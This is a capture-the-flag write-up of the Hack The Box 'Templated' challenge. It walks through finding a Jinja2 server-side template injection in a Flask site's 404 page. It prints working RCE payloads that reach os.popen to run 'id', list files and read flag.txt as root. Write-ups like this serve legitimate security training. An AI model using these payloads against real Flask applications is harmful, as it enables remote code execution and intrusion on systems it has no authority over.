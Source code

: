 # Templated
{% raw %}
This is a write up to the Hack The Box challenge Templated which exploits vulnerabilities in SSTI (server side template injection)

The front page of the site has this.

![front page](./frontpage.PNG)

This meant the page was templated using flask web frame work and jinja2 web templating.

To start I initially wanted to check if I could dirsearch some of the pages to see if there was a page I could go strait to aides from the home page.

```bash
python3 dirsearch.py -u http://134.209.190.86:32661/
 ```
This returned every site as 200 OK.

When visiting one of the pages it returned it as a 404, this is pretty interesting.
This means the 404 pages are possibly being templated.

A quick search on the internet meant we can find some exploits on flask and jinja2.

This is the link found: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

In this challenge we could edit the URL so I went down the **RCE Bypassing as much as i possibly can** heading and found this command:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
This will return the current user on the page.

![Response to edited url](./URL-change-response.PNG)

Wow! we are root!

now try this command:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}}
```
![Response to edited url second time](./URL-Change-Response2.PNG)

looking at the files returned, we can just cat flag.txt as that will contain our flag using:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

which will return a flag where the page name normally is.
{% endraw %}
